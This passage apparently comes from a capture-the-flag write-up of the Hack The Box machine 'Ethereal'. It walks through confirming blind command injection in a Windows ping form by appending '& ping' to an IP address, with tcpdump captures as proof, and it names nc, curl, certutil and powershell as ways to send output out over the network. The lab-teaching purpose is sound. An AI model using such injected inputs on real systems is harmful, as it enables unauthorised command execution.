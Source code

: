 #### Ping Panel

Once I log in with alan’s credentials, I have access to a simple form:

![1551041032445](https://0xdfimages.gitlab.io/img/1551041032445.png)

If I enter 127.0.0.1 and hit enter, I get a response:

![1551041072149](https://0xdfimages.gitlab.io/img/1551041072149.png)

If I put in my own IP, and start `tcpdump`, I see the pings (2 of them):

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
15:43:53.043972 IP ethereal.htb > kali: ICMP echo request, id 1, seq 3, length 40
15:43:53.044037 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 3, length 40
15:43:55.068936 IP ethereal.htb > kali: ICMP echo request, id 1, seq 4, length 40
15:43:55.068981 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 4, length 40

```

## Shell As Alan

### Enumeration

#### RCE Discovery

I wanted to see if I could inject commands into this panel. Since the only output I see is “Connection to host successful”, I won’t be able to just add `& whoami` to the end and see the output. The first strategy that I would try is to send out results over the network. This is easier on Linux where I have `nc`, `curl`, etc. On Windows, I can try `certutil`, `ping`, `powershell`.

I decided to try a really simple injection - adding commands to the end. In Windows, there are three types of [conditional execution](https://ss64.com/nt/syntax-conditional.html):
- `command1 && command2` - Run 2 if 1 succeeds
- `command1 || command2` - Run 2 if 1 fails
- `command1 & command2` - Run both

If I enter `127.0.0.1 & ping 10.10.14.14`, it should ping itself, and then me. I’ll watch in `tcpdump`:

```

root@kali# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
09:03:43.507202 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 87, length 40
09:03:43.507263 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 87, length 40
09:03:44.631350 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 88, length 40
09:03:44.631369 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 88, length 40
09:03:45.576903 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 89, length 40
09:03:45.576920 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 89, length 40
09:03:46.687291 IP 10.10.10.106 > 10.10.14.14: ICMP echo request, id 1, seq 90, length 40
09:03:46.687331 IP 10.10.14.14 > 10.10.10.106: ICMP echo reply, id 1, seq 90, length 40

```
